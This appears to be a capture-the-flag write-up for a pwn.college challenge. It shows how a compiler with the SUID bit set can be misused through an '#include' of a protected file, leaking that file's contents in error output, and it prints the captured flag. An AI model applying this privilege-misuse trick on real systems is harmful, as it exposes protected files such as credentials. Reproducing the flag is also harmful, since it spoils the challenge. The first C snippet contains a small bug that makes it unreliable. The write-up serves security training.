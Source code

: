 `gcc` is GNU project `c` and `c++` compiler.

The problem is very interesting.

Our first approach is we will create a `c` program that will try to open the `flag` file and reads its content.

```bash
hacker@program-misuse-level-48:~$ /challenge/babysuid_level48 
Welcome to /challenge/babysuid_level48!

This challenge is part of a series of programs that
just straight up were not designed to let you read files.

I just set the SUID bit on /usr/bin/gcc.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level48) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/gcc!
hacker@program-misuse-level-48:~$ gcc /flag
/usr/bin/ld:/flag: file format not recognized; treating as linker script
/usr/bin/ld:/flag:1: syntax error
collect2: error: ld returned 1 exit status
hacker@program-misuse-level-48:~$ touch test.c
hacker@program-misuse-level-48:~$ nano test.c
hacker@program-misuse-level-48:~$ gcc test.c -o test
hacker@program-misuse-level-48:~$ ./test
Error opening file
```

```C
#include<stdio.h>

int main()
{
   FILE * fptr;
   fptr = fopen("/flag", "r");

  if(fptr == NULL)
  {
     printf("Error opening file");
     return 1;
  }
 char line[100];

 while(fgets(line, 100, fptr))
 {
     printf("%s", s);
 }

 fclose(fptr);
 return 0;

}
```

But it says it `Error opening file`. As expected. But we don't have the read permission of the `flag` file.

Is there any other way we can include the `flag` file?

Yes, that is `include` :)

If you `#include "/flag"` as a header file in the code or any other code like

```c
#include<stdio.h>
#include "/flag"

int main()
{
printf("Hello World\n");
return 0;
}
```

and then when we compile the code, it shows an error printing the content of the header file which is here the `flag` file.

```bash
hacker@program-misuse-level-48:~$ nano test.c
hacker@program-misuse-level-48:~$ gcc test.c -o test
In file included from test.c:2:
/flag:1:4: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ before ‘.’ token
    1 | pwn.college{cXZJeolVvSuOmI_pqojFXNoSOdb.0FM5EDL0AjNzQzW}
      |    ^
/flag:1:40: error: invalid suffix "FM5EDL0AjNzQzW" on floating constant
    1 | pwn.college{cXZJeolVvSuOmI_pqojFXNoSOdb.0FM5EDL0AjNzQzW}
```


